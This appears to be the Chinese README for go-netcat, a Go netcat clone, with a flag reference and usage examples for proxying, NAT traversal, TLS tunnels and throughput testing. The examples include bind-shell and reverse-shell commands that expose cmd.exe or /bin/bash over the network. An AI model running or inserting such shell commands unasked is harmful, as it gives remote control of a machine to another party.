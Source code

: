 ## go-netcat 简介

golang版 netcat,有以下特点：

   - -exec结合-keep-open可为实现每个连接提供指定服务程序，-exec执行的程序将基于stdio管道提供服务。如果是/bin/sh这种shell程序，还可以加上-pty启用pseudo-terminal模式
   - 控制台输入支持raw模式，特别是获得shell的操作时支持TAB、ctrl+c等输入
   - 引入了cloudflare的turn服务探测公网地址，-turn方便查看自身地址经过NAT后的公网地址
   - TCP/UDP两种都很方便实现内网对内网的穿透NAT建立点对点的通信，用-peer参数可方便NAT打洞
   - 引入KCP方便建立稳定传输的UDP通道
   - 自身可作为-exec的服务程序，然后基于多路复用隧道的功能提供流量转发或socks5代理
   - TLS/DTLS针对TCP/UDP都支持
   - 支持针对发送或接收统计传输速度

## 使用方法
```
Usage of ./gonc:
  -C    enable CRLF
  -app-mux
        a Stream Multiplexing based proxy app
  -auth string
        user:password for SOCKS5 proxy; preshared key for kcp
  -bind string
        ip:port
  -exec string
        runs a command for each connection
  -inprogress
        show transfer progress
  -kcp
        use UDP+KCP protocol, -u can be omitted
  -keep-open
        keep listening after client disconnects
  -keepalive int
        none 0 will enable TCP keepalive feature
  -l    listen mode
  -mux-address string
        host:port (for connect or listen mode)
  -mux-engine string
        yamux | smux (default "smux")
  -mux-mode string
        connect | listen | stdio (default "stdio")
  -outprogress
        show transfer progress
  -peer string
        peer address to connect, will send a ping/SYN for NAT punching
  -pty
        <-exec> will run in a pseudo-terminal, and put the terminal into raw mode
  -punchdata string
        UDP punch payload (default "ping\n")
  -s5 string
        ip:port (SOCKS5 proxy)
  -sendfile string
        path to file to send (optional)
  -sni string
        specify TLS SNI
  -stderr
        when -exec, Merge stderr into stdout
  -tls
        Enable TLS connection
  -tls10
        force negotiation to specify TLS version
  -tls11
        force negotiation to specify TLS version
  -tls12
        force negotiation to specify TLS version
  -tls13
        force negotiation to specify TLS version
  -tlsserver
        force as TLS server while connecting
  -turn
        use STUN to discover public IP
  -turnsrv string
        turn server (default "turn.cloudflare.com:3478")
  -u    use UDP protocol
```

## 例子

- 支持使用socks5代理

    `gonc.exe -s5 s.s.s.s:port x.x.x.x 1234`

- 支持监听或反弹shell
    
    监听

    `gonc.exe -tls -keep-open -exec cmd.exe -stderr -l 1234`

    反弹

    `gonc.exe -tls -exec cmd.exe -stderr x.x.x.x 1234`

- 类UNIX支持pseudo-terminal shell 

    监听

    `gonc -tls -pty -exec /bin/bash -l 1234`

    连接获得shell(windows和linux都支持console raw模式，该模式下支持TAB、ctrl+c等输入)

    gonc.exe -tls -pty x.x.x.x 1234

- 还可以像socat那样建立左右两个通道转发数据

    `gonc.exe -keep-open -exec "./gonc -tls www.baidu.com 443" -l 8000`
    
    另一端用

    `gonc.exe 127.0.0.1 8000 > NUL`

- 发送和统计传输速度，内置/dev/zero和/dev/urandom实现，这样windows下也可以用/dev/zero和/dev/urandom

    `gonc.exe -sendfile /dev/zero -outprogress x.x.x.x 1234`

    `13040386048 bytes (12.1 GiB) copied, 00:00:04, 2.6 GiB/s`

    另一端用

    `gonc.exe -l 1234 > NUL`
